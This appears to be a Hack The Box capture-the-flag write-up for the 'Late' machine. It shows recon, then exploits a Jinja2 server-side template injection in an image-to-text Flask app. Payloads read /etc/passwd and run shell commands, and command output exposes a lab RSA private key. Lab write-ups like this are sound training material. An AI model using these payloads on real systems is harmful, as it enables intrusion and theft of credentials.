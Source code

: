 # Late

## Late

**Date**: 22/05/2022

**Difficulty**: EASY

**CTF**: [https://app.hackthebox.com/machines/Late](https://app.hackthebox.com/machines/Late)

***

## Recognizance Phase

Let’s start sending a ping to the target IP:

<figure><img src="../../.gitbook/assets/late0.png" alt=""><figcaption></figcaption></figure>

We receive the ping back and we can see that ttl value is 63, so the target machine is a linux.

Let’s scan all TCP ports of the target IP machine and see which ones are open:

<figure><img src="../../.gitbook/assets/late1.png" alt=""><figcaption></figcaption></figure>

It reports us 2 open ports: 22 (probably ssh) and 80 (probably http).

Let’s run some basic enumeration scripts to detect the services and their versions that are running in these ports:

<figure><img src="../../.gitbook/assets/late2.png" alt=""><figcaption></figcaption></figure>

The port 22 is running OpenSSH 7.6p1. If we do a quick search of that version on launchpad:

<figure><img src="../../.gitbook/assets/late3.png" alt=""><figcaption></figcaption></figure>

We can see that the target machine may be running an ubuntu bionic. We’ll see later if it matches.

The port 80 is running a HTTP service and it appears to be using nginx 1.14.0. Let’s launch a whatweb scan to that service:

<figure><img src="../../.gitbook/assets/late4.png" alt=""><figcaption></figcaption></figure>

At email, we can see that it’s using the domain late.htb, so let’s add it to the /etc/hosts file in our machine:

<figure><img src="../../.gitbook/assets/late5.png" alt=""><figcaption></figcaption></figure>

Now, let’s visit the webpage with the IP and with the domain late.htb to see if there is any difference (in this case the page displayed seems to be the same).

<figure><img src="../../.gitbook/assets/imagen (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

Taking a look to the main webpage I discover a link that redirect us to the subdomain `images.late.htb`:

<figure><img src="../../.gitbook/assets/imagen (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

Let’s add it to the /etc/hosts file and visit it:

<figure><img src="../../.gitbook/assets/imagen (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

Interesting, it seems to be an online service for converting image to text using a tool named Flask. There is a field where we can select a file of our machine and a button that will start the scan process…

Let’s test it with a valid image with text to see what happens:

<figure><img src="../../.gitbook/assets/imagen (14) (1).png" alt=""><figcaption></figcaption></figure>

I have uploaded a PNG file with the text ”Hi, I’m Angel LM!” and after clicking on SCAN IMAGE button the site asks me to download the results… Let’s see what’s inside:

<figure><img src="../../.gitbook/assets/late10.png" alt=""><figcaption></figcaption></figure>

Pretty close to the text!

Let’s investigate about Flask. According to Wikipedia, Flask is a micro web framework written in Python that allows to create web apps.

As we saw earlier, this app is getting an image, finding the text inside it, and sending us the result in an HTML way `<p> THE RESULT </p>`

Maybe we can inject code as a file, inside the file name or in a image as text.

Let’s use Burp Suite to intercept a petition and see more info:

<figure><img src="../../.gitbook/assets/late11.png" alt=""><figcaption></figcaption></figure>

Apparently it is sending the data image by POST to /scanner.

Let’s try to upload a TXT file to the form.

<figure><img src="../../.gitbook/assets/late12.png" alt=""><figcaption></figcaption></figure>

An error “invalid extension” shows up any time I try to upload any file that hasn’t an image file extension.

What if I change the extension to .jpg, creating a non valid image?

<figure><img src="../../.gitbook/assets/late13.png" alt=""><figcaption></figcaption></figure>

Mmm… there is some information leakage? Apparently there is a user named `svc_acc` in the target machine. The files I send to scanner are being saved in `/home/svc_acc/app/uploads/` folder.

Ok, so there is no way to upload a malicious file. What about injecting the code inside the image? If we create an image of a code that could be executed by the framework we get an RCE and maybe we can get a Reverse Shell after.

I found this interesting article from hacktricks: [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection).

The first step is to know if there is an Server Side Template Injection (SSTI) vulnerability.

To do so, I prepared this image:

<figure><img src="../../.gitbook/assets/late14.png" alt=""><figcaption></figcaption></figure>

And received this response from the scan web tool:

```bash
<p>49
${7*7}

<%= /*/] %>
S49
#{7*7}
</p>
```

Apparently, the strings `{{7*7}}` are being executed, so it is vulnerable to SSTI. Nice.

Now, let’s do some more checks to identify the template engine.

<figure><img src="../../.gitbook/assets/late15.png" alt=""><figcaption></figcaption></figure>

Apparently, Flash uses Jinja2 by defect, but let’s check it:

<figure><img src="../../.gitbook/assets/late16.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late17.png" alt=""><figcaption></figcaption></figure>

```bash
<p>7777777
</p>
```

Seems to be Jinja2.

In the hacktricks article, there are some examples of reading remote files exploiting jinja2:

```bash
# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}
# https://github.com/pallets/flask/blob/master/src/flask/helpers.py#L398
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

And examples of RCE:

```bash
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

The scanning app doesn’t recognize the text very well and it drop errors everytime I try to upload an image with executable code, and it’s hard to know where it failed. To deal with this, I removed the `{{ }}` from the text and modify the size of the text one time after another until the text I wrote is the same I received.

<figure><img src="../../.gitbook/assets/late18.png" alt=""><figcaption></figcaption></figure>

Monospace 36 with kerning adjustments in some parts.

<figure><img src="../../.gitbook/assets/late19.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late20.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late21.png" alt=""><figcaption></figcaption></figure>

I tried to launch a reverse shell in multiples ways: bash, python, netcat… but no one succeded, so I’ll do manual enumeration via SSTI i guess…

<figure><img src="../../.gitbook/assets/late22.png" alt=""><figcaption></figcaption></figure>

```bash
<p>svc_acc

</p>
```

<figure><img src="../../.gitbook/assets/late23.png" alt=""><figcaption></figcaption></figure>

```bash
<p>app
file
user.txt

</p>
```

<figure><img src="../../.gitbook/assets/late24.png" alt=""><figcaption></figcaption></figure>

```bash
<p>total 60
drwxr-xr-x 9 svc_acc svc_acc  4096 May 23 21:11 .
drwxr-xr-x 3 root    root     4096 Jan  5 10:44 ..
drwxrwxr-x 7 svc_acc svc_acc  4096 May 23 21:16 app
lrwxrwxrwx 1 svc_acc svc_acc     9 Jan 16 18:45 .bash_history -&gt; /dev/null
-rw-r--r-- 1 svc_acc svc_acc  3771 Apr  4  2018 .bashrc
drwx------ 3 svc_acc svc_acc  4096 Apr  7 13:51 .cache
drwxr-x--- 3 svc_acc svc_acc  4096 May 23 20:15 .config
-rw-rw-r-- 1 svc_acc svc_acc     0 May 23 20:42 file
drwx------ 4 svc_acc svc_acc  4096 May 23 20:09 .gnupg
drwxrwxr-x 5 svc_acc svc_acc  4096 Jan  5 12:13 .local
-rw-r--r-- 1 svc_acc svc_acc   807 Apr  4  2018 .profile
drwx------ 2 svc_acc svc_acc  4096 May 23 20:04 .ssh
-rw-r----- 1 root    svc_acc    33 May 23 19:12 user.txt
drwxr-xr-x 2 svc_acc svc_acc  4096 May 23 20:40 .vim
-rw------- 1 svc_acc svc_acc 10192 May 23 21:11 .viminfo

</p>
```

<figure><img src="../../.gitbook/assets/late25.png" alt=""><figcaption></figcaption></figure>

```bash
<p>8374#######################b33

</p>
```

<figure><img src="../../.gitbook/assets/late26.png" alt=""><figcaption></figcaption></figure>

```bash
<p>total 20
drwx------ 2 svc_acc svc_acc 4096 May 23 20:04 .
drwxr-xr-x 9 svc_acc svc_acc 4096 May 23 21:11 ..
-rw-rw-r-- 1 svc_acc svc_acc  394 May 23 20:04 authorized_keys
-rw------- 1 svc_acc svc_acc 1679 Apr  7 11:08 id_rsa
-rw-r--r-- 1 svc_acc svc_acc  394 Apr  7 11:08 id_rsa.pub

</p>
```

```bash
<p>-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
d137M3Oi2WTWRBzcWTAMwfSJ2cEttvS/AnE/B2Eelj1shYUZuPyIoLhSMicGnhB7
7IKpZeQ+MgksRcHJ5fJ2hvTu/T3yL9tggf9DsQIDAQABAoIBAHCBinbBhrGW6tLM
fLSmimptq/1uAgoB3qxTaLDeZnUhaAmuxiGWcl5nCxoWInlAIX1XkwwyEb01yvw0
ppJp5a+/OPwDJXus5lKv9MtCaBidR9/vp9wWHmuDP9D91MKKL6Z1pMN175GN8jgz
W0lKDpuh1oRy708UOxjMEalQgCRSGkJYDpM4pJkk/c7aHYw6GQKhoN1en/7I50IZ
uFB4CzS1bgAglNb7Y1bCJ913F5oWs0dvN5ezQ28gy92pGfNIJrk3cxO33SD9CCwC
T9KJxoUhuoCuMs00PxtJMymaHvOkDYSXOyHHHPSlIJl2ZezXZMFswHhnWGuNe9IH
Ql49ezkCgYEA0OTVbOT/EivAuu+QPaLvC0N8GEtn7uOPu9j1HjAvuOhom6K4troi
WEBJ3pvIsrUlLd9J3cY7ciRxnbanN/Qt9rHDu9Mc+W5DQAQGPWFxk4bM7Zxnb7Ng
Hr4+hcK+SYNn5fCX5qjmzE6c/5+sbQ20jhl20kxVT26MvoAB9+I1ku8CgYEA0EA7
################################################################
0xEKNYA3HS5qvOI3dHj6O4JZBDUzCgZFmlI5fslxLtl57WnlwSCGHLdP/knKxHIE
uJBIk0KSZBeT8F7IfUukZjCYO0y4HtDP3DUqE18CgYBgI5EeRt4lrMFMx4io9V3y
3yIzxDCXP2AdYiKdvCuafEv4pRFB97RqzVux+hyKMthjnkpOqTcetysbHL8k/1pQ
GUwuG2FQYrDMu41rnnc5IGccTElGnVV1kLURtqkBCFs+9lXSsJVYHi4fb4tZvV8F
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----

</p>
```

<figure><img src="../../.gitbook/assets/late27.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late28.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late29.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late30.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late31.png" alt=""><figcaption></figcaption></figure>
